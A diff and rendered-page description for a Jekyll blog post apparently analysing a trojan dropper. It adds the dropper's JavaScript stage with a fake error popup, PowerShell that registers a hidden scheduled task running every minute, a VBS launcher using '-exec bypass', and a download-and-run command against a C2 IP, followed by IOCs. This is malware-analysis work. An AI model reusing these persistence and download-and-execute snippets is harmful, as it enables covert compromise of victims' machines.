

Before and after one commit to MRW01F/blog, a Jekyll site: the page built from _posts/2023-05-30-Malware-Analysis.md, in a window 1280 px wide and 1400 px high, scrolled down 1807 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2457 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
finalized generic trojan dropper

````diff
--- a/_posts/2023-05-30-Malware-Analysis.md
+++ b/_posts/2023-05-30-Malware-Analysis.md
@@ -72,18 +72,70 @@ gets us another javascript. this is the procedure of that
 ```
 
 # STAGE 3:
-	this javascript produces a powershell script that is run after 10 seconds of sleep, poweshell script is split by "!" and converted from base64
+this javascript produces a powershell script that is run after 10 seconds of sleep, poweshell script is split by "!" and converted from base64.
+```javascript
+var payload = ' < payload string > '
 
+var split_payload = xhhwtarcadepz(payload).split('!');
+
+Win = new this[split_payload[4]](split_payload[1]);
+
+Win.PopUp('This document is corrupt.', 10, 'ERROR', 48);
+
+var yjdednyw = new Date();
+
+while (true) {
+	WScript.Sleep(10);
+	var qhchhvwd = new Date();
+
+	if (qhchhvwd - yjdednyw > 774720) {
+		Win[split_payload[3]](split_payload[2], keCarthagedf);
+		break;
+	}
+};
+
+```
 
 # STAGE 4:
-	this powershell script runs a string that is base64 encoded & raw deflated.
+this poweshell script decodes some byte arrays using xor that is information about the scheduled task.
+this script will write a file to `C:\Users\<user>\AppData\Local\Microsoft\WindowsPowershell\<executingScript.vbs>`
 
-# STAGE 5:
+```js
+$rERbWtRv = [Convert]::FromBase64String(${isWABlOEp})
 
+$bytes = Get-Variable -ValueOnly -Name '5EVLS'
+$bytes.writeallbytes.Invoke(${NynG}, ${ReRBwTRV})
 
+$askzpHUpAj = (pwd).ToString() + '\'
 
-a0bf6f09f394949c603b878ab42b001155d347e5812b59f09a2ab9d387d548f6  ./a0bf6f09f394949c603b878ab42b001155d347e5812b59f09a2ab9d387d548f6.docx
-f2354328324b94918311ef7a13e9c207b75f848bcaadebe7f4753f3d5fcfc63d  ./Base64FormattingOpti.exe.bin
-c720d8d87e5744ef459c160ae3ae85984519c5cee89d4acd3d4156f929ebcca2  ./Cerbera.dll
-bdddec1e08a612296a6caa2cb79749150e4b6797f6cca9b7f255ae11cfc4398f  ./IVectorView.dll
-EA6D52270F7D5AEC22FD17F1904F2DFFD566016A4362D9D5EA81C1D11337DE9E  ./happy.exe
+$vQpSBXgyj = &(cd $JtATCAR)
+
+$tkqrmLSfPD = '"' + (loopFunc([System.Byte[]]@(0x22,0x2e,0x33,0x6b,0x63,0x22,0x3c,0x39,0x6b,0x66,0x3e,0x38,0x2e,0x29,0x6b)) 75) + "$iZZoO$suqqSiGL/$vQpsbXGyj)" + '"'
+
+$eRQcf = Start-Sleep -Seconds $TkQRmlsFpD
+
+$tpNDJPwAa = New-ScheduledTaskPrincipal $UJrw
+
+$aIufdyWasr = Register-ScheduledTask -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Days 365)
+
+$dwtTAWqx = New-ScheduledTaskSettingsSet -Hidden -MultipleInstances Parallel -AllowStartIfOnBatteries
+
+Register-ScheduledTask -TaskName ${WbWmgQb} -Action ${eRQcf} -Trigger ${aIufdyWasr} -Settings ${dwtTAWqx}
+
+```
+
+The persistent VBS is merely a WScript command to run PowerShell, and it uses parameters for the C2 from the scheduled task command.
+```vb
+c = WScript.Arguements(0)
+set s = CreeateObject("WScript.shell")
+s.Run "Powershell.exe -exec bypass" & c, 0
+```
+
+this scheduled task is running approx every minute, & it runs thar vbs script with the C2 information as arguements.
+```
+C:\Users\<user>\AppData\Local\Microsoft\WindowsPowershell\<executingScript.vbs> "iex(iwr -useb http://159.65.42[.]223/r/idm/148F4423C27E506D)"
+```
+
+# IOCs
+
+1. 159.65.42[.]223:80
````
